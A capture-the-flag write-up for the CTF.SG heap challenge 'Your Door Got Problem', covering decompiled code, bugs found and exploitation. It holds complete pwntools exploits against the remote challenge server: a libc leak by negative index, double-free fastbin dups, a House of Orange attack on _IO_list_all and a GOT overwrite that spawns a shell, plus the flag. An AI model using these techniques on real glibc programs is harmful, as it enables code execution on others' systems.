

# Your Door Got Problem [992/3/FB]

I was just minding my own business one day when I found a [fengshui advertisement](https://i.imgur.com/wQMTFDH.png) at my door. My door got problem? I'm slightly offended because I actually like my door, but nevertheless bad Fengshui does not sound very good. Perhaps I should do something about it.

Note: <b>do not call</b> the number on the advertisement.


`nc chals.ctf.sg 20501`

**Files**: `master_wang`, `libc.so.6` (libc6_2.23-0ubuntu11.2_amd64), `ld.so`

```
[*] 'master_wang'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This was a fun challenge to do! As a relative newcomer to the heap, I've dealt predominantly with tcache exploits, making this challenge a worthwhile learning experience. I had a lot of false starts, poor assumptions, and magic numbers littered all over my exploit, and I ultimately hit First Blood with a few unintended tricks.

The tl;dr for my exploit is:

1. leak libc by negative index read (!)
2. use double free to get a fake fastbin chunk overlapping with other fastbin chunks. Leak the heap via UAF here as well.
3. use the overlapping chunk to convert a fastbin chunk into a fake smallbin chunk; free it to put a chunk into the unsorted bin
4. Using more double frees, overflow into the freed Unsorted Bin chunk to obtain code execution via House of Orange (!)

Only 3 other people (author included) succeeded in pwning this challenge. Most exploits involved (2) and (3), with the exception of @tygq13's solution<sup>1</sup> which involved bruteforcing a fastbin dup on the GOT table. The other solutions [made use of the `main_arena` to obtain a GOT overwrite](https://gist.github.com/niktay/6c0550ee260609f864b6fd84b2fae3fc), which I [_considered_ doing](https://redpwn.net/writeups/picoctf2019/sice_cream/) but ultimately abandoned for [another method](https://ctftime.org/writeup/16859).

## Bugs

```sh
 __       __                        __                            __       __
/  \     /  |                      /  |                          /  |  _  /  |
$$  \   /$$ |  ______    _______  _$$ |_     ______    ______    $$ | / \ $$ |  ______   _______    ______
$$$  \ /$$$ | /      \  /       |/ $$   |   /      \  /      \   $$ |/$  \$$ | /      \ /       \  /      \
$$$$  /$$$$ | $$$$$$  |/$$$$$$$/ $$$$$$/   /$$$$$$  |/$$$$$$  |  $$ /$$$  $$ | $$$$$$  |$$$$$$$  |/$$$$$$  |
$$ $$ $$/$$ | /    $$ |$$      \   $$ | __ $$    $$ |$$ |  $$/   $$ $$/$$ $$ | /    $$ |$$ |  $$ |$$ |  $$ |
$$ |$$$/ $$ |/$$$$$$$ | $$$$$$  |  $$ |/  |$$$$$$$$/ $$ |        $$$$/  $$$$ |/$$$$$$$ |$$ |  $$ |$$ \__$$ |
$$ | $/  $$ |$$    $$ |/     $$/   $$  $$/ $$       |$$ |        $$$/    $$$ |$$    $$ |$$ |  $$ |$$    $$ |
$$/      $$/  $$$$$$$/ $$$$$$$/     $$$$/   $$$$$$$/ $$/         $$/      $$/  $$$$$$$/ $$/   $$/  $$$$$$$ |
                                                                                                  /  \__$$ |
                                                                                                  $$    $$/
                                                                                                   $$$$$$/

==============================================================================================================
|       Your door got problem! A very big Fengshui problem! But have no fear, as Master Wang is here!        |
==============================================================================================================
| 1) Manipulate Door Fengshui                                                                                |
| 2) View HuatFriend                                                                                         |
| 3) Disown HuatFriend                                                                                       |
| 4) Quit                                                                                                    |
==============================================================================================================

Choice =>
```

`master_wang` is a simple CLI heap challenge, and we'll investigate each option individually for bugs.

### Manipulate (malloc)

```c
int total_changes; //.bss:60209c
char *fengshui[32];//.bss:6020a0
void manipulate_fengshui() {
  char s[24]; // [rsp+10h] [rbp-30h] BYREF
  printf("\n ... Enter New Angle (degrees) => ");
  fgets(s, 15, stdin);
  int n = atoi(s);
  if ( n <= 90 ) {
    if ( n > 19 ) {
      if ( n % 10 || ((n / 10) & 1) != 0 )
        puts("\nMaster Wang: Haiya! ...");
      else {
        printf("\nSetting door to %d degrees...\n", n);
        if ( total_changes > 15 ) {
          puts("...Your door really got problem...");
          exit(0);
        }
        int na = 16 * (n / 10 - 1) + 8;
        puts("Successfully changed door angle!");
        fengshui[total_changes] = (char *)malloc(na);
        printf("Congrats... Enter Auspicious Phrase => ");
        fgets(fengshui[total_changes], na, stdin); // not an overflow
        char *mallocd_ptr = fengshui[total_changes++];
        mallocd_ptr[strcspn(mallocd_ptr, "\n")] = '\0'; // potential oob write when fgets doesnt put \n
        printf("\nEnjoy....\nObtained HuatFriend ID #%d.\n", total_changes - 1);
      }
    }
    else
      puts("\nMaster Wang: Oi! Door open so small, how the luck come in???");
  } else
    puts("\nYour door can't go beyond 90 degrees!");
}
```

There's a _very minor_ bug here, but this function is mostly clean. The input size `n` is only valid when `n ≡ 0 (mod 20)` && `20 <= n < 90`, meaning that `malloc` will only ever return chunks of size `0x20/0x40/0x60/0x80`.  These sizes are all within the fastbin range, which is rather burdensome.

### View

```c
void view_huatfriend() {
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  printf("\nEnter HuatFriend ID => ");
  fgets(s, 15, stdin);
  int ID = atoi(s);
  if ( ID < total_changes ) // ID can be negative !
    printf("HuatFriend Data: %s\n", fengshui[ID]); // leaks !
  else
    puts("\nYou don't have that HuatFriend!");
}
```

The major bug here is a lack of a _minimum_ ID. Using a specific negative index, it is possible to leak libc via the LOAD section:


### Disown (free)

```c
void disown_huatfriend() {
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  printf("\nEnter HuatFriend ID => ");
  fgets(s, 15, stdin);
  int ind = atoi(s);
  if ( ind < total_changes ) {
    free(fengshui[ind]);   // double free !!!
    printf("\nYou have disowned HuatFriend #%d.\n", ind);
  }
  else
    puts("\nYou don't have that HuatFriend!");
}
```

`fengshui[ind]` is never zeroed out, so there is an obvious double-free/use-after-free vulnerability available here.

### Quit

The last option just calls `exit(0)` from the GOT. This is a decent target for a GOT overwrite with a `one_gadget`, but I never attempted that.

### Summary

* allocations are stored at `.bss`; malloc can only be called 15 times
* malloc is limited to fastbins
* libc/heap are very easy to leak
* double-free & UAF is available

With the IDA part over, we can move on to exploitation.

## Succeeding with Stupidity

As with every heap challenge, I started off by heading to [how2heap](https://github.com/shellphish/how2heap) to see what I could find. Right at the top of the repository is this small technique: 


_Wow!_ An arbitrary pointer. PIE is disabled, and I already have libc. Can I simply overwrite the GOT with the fastbin freelist?


I assumed that attempting to obtain an unaligned chunk would result in errors. I was **wrong**<sup>1</sup>: you can use the `0x60.*` pointer here to commit a fastbin dup:


I came up with a different solution. One that I sincerely lack the wherewithal to explain, so just enjoy these few pictures I have of the process:


Somewhere along the line, I [discovered](https://redpwn.net/writeups/picoctf2019/sice_cream/) some [writeups](https://ctftime.org/writeup/16859): 


I managed to get a chunk into an unsorted bin:





And eventually I succeed in executing a [house of orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c) attack.


Full exploit:

```python
from pwnscripts import *
context.libc_database = 'libc-database'
context.libc = 'wang.so.6'
context.binary = 'master_wang'

'''
20 <= angle <= 90
angle % 10 == 0
(angle/10)%2 == 0
'''
#r = context.binary.process()
r = remote('chals.ctf.sg', 20501)
@context.quiet
def select(i: int): r.sendlineafter('=> ', str(i))
def add(ang:int, data:bytes):
    select(1)
    assert 20 <= ang <= 90
    assert ang % 20 == 0
    r.sendlineafter('(degrees) => ', str(ang))
    na = 16*(ang//10-1)+8
    print(hex(na))
    assert b'\n' not in data
    if len(data) < na: data += b'\n'
    if len(data) == na: data = data[:-1]
    r.sendafter('Phrase => ', data)
def view(ind: int):
    select(2)
    r.sendlineafter('ID => ', str(ind))
    #context.log_level = 'warn'
    r.recvuntil('Data: ')
    #context.log_level = 'debug'
    return r.recvline()
def free(ind: int):
    select(3)
    r.sendlineafter("ID => ", str(ind))
#context.log_level = 'debug'
#gdb.attach(r, gdbscript='b *0x400c26\nc')
context.libc.symbols['puts'] = unpack(view((0x400570-context.binary.symbols['fengshui'])//context.bytes)[:-1].ljust(context.bytes,b'\0'))
log.info(hex(context.libc.symbols['__free_hook']))
log.info(hex(context.libc.symbols['__malloc_hook']))
#add(80, b'hi')
add(40, b'A'*12)# 0x40 bytes; 0x.*010
add(40, b'B'*12)# 0x40 bytes; 0x.*050
add(40, b'C'*12)# call this a dud; 0x.*090
add(80, fit({0x08: 0x11, 0x18: 0x11})) # 0x.*0d0; fake next chunk after [1] is changed to a fake unsorted bin
add(40, b'E'*12)
free(0)
free(1)
free(0)
heap_leak = unpack(view(0)[:-1].ljust(context.bytes,b'\0')) # 0x.*040
log.info(hex(heap_leak))
fakechunk = fit({
    0x00: heap_leak-0x20, # fd of the next [0] allocated; 0x.*020
    0x18: 0x41, # size
    0x20: 0,    # clean fd
})
add(40, fakechunk)
add(40, b'B'*12)
add(40, b'A'*4)
add(40, fit({0x18: 0x91})) # this data is written to 0x.*030

# At this point, we should have a fake unsorted bin pointer ready to be freed at [1].
free(1)
# repeat heap overflow
free(0)
free(4)
free(0)
fakechunk = fit({
    0x00: heap_leak-0x10, # fd of the next [0] allocated; 0x.*030
    0x28: 0x41, # size
    0x30: 0,    # clean fd
})
add(40, fakechunk)
add(40, b'E'*12)
add(40, b'A'*4)
# next allocation will be a write over the freed unsorted chunk
add(40, fit({
    0x00: b'/bin/sh\0',
    0x08: 0x61,
    0x18: context.libc.symbols['_IO_list_all']-0x10,
    0x20: 2,
    0x28: 3
}))
free(3)
add(80, fit({
    0x08: 0x10,
    0x18: 0x11,
    0x30: 0,
    0x48: heap_leak-0x40+0xd0+0x50-0x18,
    0x50: context.libc.symbols['system']
}))
#gdb.attach(r)

select(1)
r.sendlineafter('(degrees) => ', b'20')
r.interactive() # this works like.... 20% of the time 
```

In spite of the roundabout way I went about handling this challenge, I got first blood! I hope I'll never have to repeat this again.

## Flag

`CTFSG{bb_10h_15_4_l13_p3p3h4nd5}`

## Footnotes

1. There's a pure-fastbin solution for this challenge. Start by leaking libc:

   ```c
   C.symbols['puts'] = unpack(view((0x400570-E.symbols['fengshui'])//context.bytes)[:-1].ljust(context.bytes,b'\0'))
   ```
   
   Proceed by making a double-free:
   
   ```c
   add(60, b"A")
   add(60, b"B")
free(0)
   free(1)
free(0)
   ```
   
   Do a fastbin dupe to a fake unaligned chunk nearby the GOT table, overwriting `free()` with `system()`:
   
   ```c
add(60, pack(E.got['__gmon_start__']+2)) # 0x602000-6
   add(60, b'ignore')
add(60, b'/bin/sh\0')
   add(60, fit({6+8: C.symbols['system']}) + pack(C.symbols['puts']))
   ```
   
   Note that 0x602000 points to `&_DYNAMIC` (at `0x601e28`), making the fastbin size valid once again. The fake fastbin allocated will have data written to `0x60200a`, and the functions being overwritten here are `free` (to `system`) and `puts` (to `puts` to prevent a segfault). 
   The last step is to get a shell via `free("/bin/sh")`:
   
   ```c
free(4)
   r.interactive()
   ```

